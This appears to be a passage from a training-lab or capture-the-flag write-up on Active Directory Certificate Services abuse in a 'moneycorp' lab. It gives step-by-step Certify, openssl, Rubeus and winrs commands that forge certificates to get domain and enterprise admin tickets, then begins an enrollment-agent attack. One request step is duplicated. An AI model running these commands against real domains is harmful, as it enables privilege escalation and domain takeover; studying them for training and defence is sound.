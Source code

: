 ```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```
- Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to esc1.pem.
- We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use SecretPass@123 as the export password.
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx
```
- Use the PFX created above with Rubeus to request a TGT for DA - Administrator!
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:administrator /certificate:C:\AD\Tools\esc1-DA.pfx /password:SecretPass@123 /ptt
```
- Check if we actually have DA privileges now:
```
winrs -r:dcorp-dc cmd /c set username
```
- Awesome! We can use similar method to escalate to Enterprise Admin privileges. Request a certificate for Enterprise Administrator - Administrator
```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```
- Save the certificate to esc1-EA.pem and convert it to PFX. I will use SecretPass@123 as the export password:
```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```
- Save the certificate to esc1-EA.pem and convert it to PFX. I will use SecretPass@123 as the export password:
```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-EA.pfx
```
- Use Rubeus to request TGT for Enterprise Administrator - Administrator
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:C:\AD\Tools\esc1-EA.pfx /password:SecretPass@123 /ptt
```
- Finally, access mcorp-dc!
```
winrs -r:mcorp-dc cmd /c  set username
```
#### Flag - Name of the AD CS template that has EKU of Certificate Request Agent and grants enrollment rights to Domain Users	
```
C:\AD\Tools\Certify.exe find /vulnerable
```
- The "SmartCardEnrollment-Agent" template has EKU for Certificate Request Agent and grants enrollment rights to Domain users. If we can find another template that has an EKU that allows for domain authentication and has application policy requirement of certificate request agent, we can request certificate on behalf of any user.
```
C:\AD\Tools\Certify.exe find
```
- There is a template "SmartCardEnrollment-Users" Now, request an Enrollment Agent Certificate from the template "SmartCardEnrollment-Agent":
```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:SmartCardEnrollment-Agent
```